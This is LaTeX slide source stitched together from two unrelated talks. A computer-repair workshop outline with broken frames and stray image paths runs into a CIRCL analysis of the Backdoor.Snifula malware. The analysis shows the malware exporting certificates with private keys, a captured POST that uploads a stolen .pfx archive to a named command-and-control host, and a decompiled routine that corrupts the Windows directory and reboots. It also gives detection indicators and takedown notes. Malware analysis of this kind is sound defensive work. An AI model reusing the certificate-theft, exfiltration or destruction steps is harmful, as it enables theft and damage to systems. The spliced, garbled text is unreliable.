% DO NOT COMPILE THIS FILE DIRECTLY!
% This is included by the other .tex files.


% p.1 - Title
\begin{frame}[t,plain]
\titlepage
\end{frame}

% p.2 - Thanks
\begin{frame}[t,fragile]{Happy to see you}
\vfill \begin{center}

\includegraphics [ scale =0.35]{images/happy.png} \end{center}
\vfill
\end{frame}


% p.3 - Whoami?
\begin{frame}[t,fragile]{Who am I?}
\#Hacker
\end{frame}

% p.4 - Whoami?
\begin{frame}[t,fragile]{Who am I?}
\centerline {\#Hacker}
\end{frame}

How long & Overview

\item +/- 1.5.h (including hands-on)
\item ------------------------------
\item You and your tech
\item Computer Overview (and hardware)
\item What can you fix
\item Tools to fix (screw this\ldots)
\item Problem Types (Hard/Soft)
\item Internet Security
\item Resources


You and your tech

\item What were problems you have (or had)
\item How do you feel repairability is evolving? (Why?)


Computer Overview
\vfill \begin{center}

\includegraphics [ scale =0.35]{images/computer-type.jpg} \end{center}
\vfill


Computer Overview
\vfill \begin{center}

\includegraphics [ scale =0.35]{images/42.jpg} \end{center}
\vfill


Computer Overview
\vfill \begin{center}

\includegraphics [ scale =0.35]{images/hardware.jpg} \end{center}
\vfill


What can you fix
\item Most things\ldots but


% p. - Overview
\begin{frame}[t,fragile]{Backdoor.Snifula new variants}
        \begin{itemize}
                \item Backdoor.Snifula history started in 2006
                \item Not widespread, but regular updates \& used for targeted attacks
                \item Recent variants (32/64bit) single version analyzed by CIRCL
                \item The theory of X.509 certificate stealing $\rightarrow$  core functionality
        \end{itemize}
\end{frame}


% p.3 - History
\begin{frame}[t,fragile]{Backdoor.Snifula not really new}
        \begin{itemize}
                \item 2006-Infostealer.Snifula.A: \url{https://bit.ly/SnifulaHistory_1}
                \item 2006-Infostealer.Snifula.B: \url{https://bit.ly/SnifulaHistory_2}
                \item 2007-Infostealer.Snifula.C: \url{https://bit.ly/SnifulaHistory_3}
                \item 2012-Backdoor.Snifula.D: \url{https://bit.ly/SnifulaHistory_4}
  \end{itemize}
\end{frame}


% p.4 - Operation
\begin{frame}[t,fragile]{Backdoor.Snifula operation}
        \begin{itemize}
                \item The malware is a well-designed {\bf multithreaded} software, relying on {\bf standard Win32 calls}
                \item Threads collect the certificate, browser history, browser cache and cookies
                \item Classic {\bf screenshot} commands
                \item A sender thread is looking for files ([16hex].tmp) and upload regularly (via permitted browser)
                \item Browser Blocking (!FF, !IE)
                \item A SOCKS server can be enabled and be used on request
                
                (steals proxy creds)
        \end{itemize}
\end{frame}


% p.5 - Installation
\begin{frame}[t,fragile]{Backdoor.Snifula installation}
\vfill \begin{center}

\includegraphics [ scale =0.35]{images/hardware.jpg} \end{center}
\vfill
\end{frame}


% p.6 - Interesting code
\begin{frame}[t,fragile]{Backdoor.Snifula Interesting Code - cert stealing}

        The certificates of the certificate stores are exported, including their {\bf private} key. This is done in the function export\_certificates:
        
\begin{lstlisting}[basicstyle={\tiny}]
PFXExportCertStoreEx(HCERTSTORE, &pPFX , L"<HARDCODED_PASSWORD>" , 0 , EXPORT_PRIV_KEYS)

PFXExportCertStoreEx std. Win32 code:
\end{lstlisting}

\url{http://msdn.microsoft.com/en-us/library/windows/desktop/aa387313(v=vs.85).aspx} $\rightarrow$ \url{https://bit.ly/PFXExport}


      The certificate files are archived and compressed into a temporary file of the format [16 hex characters].tmp, they are written at:
      

       \begin{lstlisting}[basicstyle={\tiny}]
C:\Documents and Settings\<USER NAME>\Local Settings\Temp
       \end{lstlisting}
\end{frame}


% p.7 - Interesting code
\begin{frame}[t,fragile]{Backdoor.Snifula Interesting Code - upload \& housekeeping}
      Another thread collects and uploads these files periodically:

      \begin{lstlisting}[basicstyle={\tiny}]
create_thread_collect_upload_files ()

POST http://wednesltr.com.tw/uda
Content-Type: multipart/form-data; boundary=-----------------------1d7248c1d7248c1d7248c 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:11.0) Gecko/20100101 Firefox/11.0 
Host: wednesltr.com.tw 
Content-Length: 246335 
Connection: keep-alive 
Multipart form 
Form data: upload_file: 
PK...........@.J.$(...........AuthRoot.pfxUT 
...A.O.A.O.A.O.7...0.......0.....?*.H.. 
.............0....0.....?*.H.. 
........0.......0.....?*.H.. 
[...]
   \end{lstlisting}

Do some house keeping and remove any URLs form the browser history:

\begin{lstlisting}[basicstyle={\tiny}]
DeleteUrlCacheEntry (the *browser API* is used for communicating)
\end{lstlisting}
\end{frame}


% p.8 - Interesting code
\begin{frame}[t,fragile]{Backdoor.Snifula Interesting Code - KILL}

\begin{lstlisting}
CHAR *__usercall corrupt_windows<eax>() 
...
GetWindowsDirectoryA ( windows_directory , MAX_PATH);
...
WriteFile ( hFileWindowsDirectory , hInstance ,  
               0x10000u , &NumberOfBytesWritten , 0);
...
if ( success )
...
reboot_windows ( v9 ) ;
\end{lstlisting}

\begin{lstlisting}[basicstyle={\tiny}]DeleteUrlCacheEntry (the browser API is used for communicating and removed from the history)
\end{lstlisting}
\end{frame}


% p.9 - detection
\begin{frame}[t,fragile]{Backdoor.Snifula detection}
        Build-env signature in binary: \begin{lstlisting}
C:\tmp\NRM DD_MM_YY\PDB\client_x32.pdb
                \end{lstlisting}

                Pipe created: \begin{lstlisting}
\\ .\pipe\{%08x-%04x-%04x-%04x-%08x%04x}
                \end{lstlisting}

                DLL registration: \begin{lstlisting}[basicstyle={\tiny}]
HKLM\System\CurrentControlSet\Control\SessionManager\AppCertDlls\
\end{lstlisting}
Commands memory analysis (pipe command number): \begin{lstlisting}[basicstyle={\tiny}]
EXE (261), DL_EXE (262),DL_EXE_ST (263),CLEAR_COOK (267),VER (-),REBOOT (259),KILL (264),
GET_CERTS (265),GET_COOKIES (266),SOCKS_START (271),SOCKS_STOP (270),GET_LOG (-)
\end{lstlisting}

\end{frame}


% p.10 - takedown
\begin{frame}[t,fragile]{Backdoor.Snifula takedown}
        \begin{itemize}
                \item ID. of Domain Name owner (aster@gmail.com)
                \item Enumeration of other domains registered by attacker
                \item Initially 3 Domains after enum. 40
                \item Time-to-takedown .com $\rightarrow$ 2 weeks (Verisign)
                \item Time-to-takedown .com.tw $\rightarrow$ 1 week (WebCC)
                    \begin{lstlisting}
                    wednesltr.com.tw
                    masmitnd.com.tw
                    financepfrro.com.tw
                    \end{lstlisting}

                \item IP-Address takedown still ongoing thus $\colorbox{orange}{Amber}$
        \end{itemize}
\end{frame}


% p.11 - acknowledgements
\begin{frame}[t,fragile]{Acknowledgments and Contact Info}
\begin{itemize}
        \item Thanks to CERT.BE for the hash references and all the organizations/people who took down the server/domains.
\end{itemize}
\begin{itemize}
        \item Team CIRCL - via ticketing - info@circl.lu
\end{itemize}


        GPG fingerprint: CA57 2205 C002 4E06 BA70 BE89 EAAD CFFC
        
        ID: $\textcolor{blue}{0x22BD 4CD5}$
\begin{itemize}
        \item Reversing lead: Sascha Rommelfangen - sascha.rommelfangen@circl.lu
\end{itemize}
        GPG fingerprint: 85F1 E6D6 7988 03C6 5446 3133 89F7 60A9
        
        ID: $\textcolor{blue}{0xA572 F306}$
\end{frame}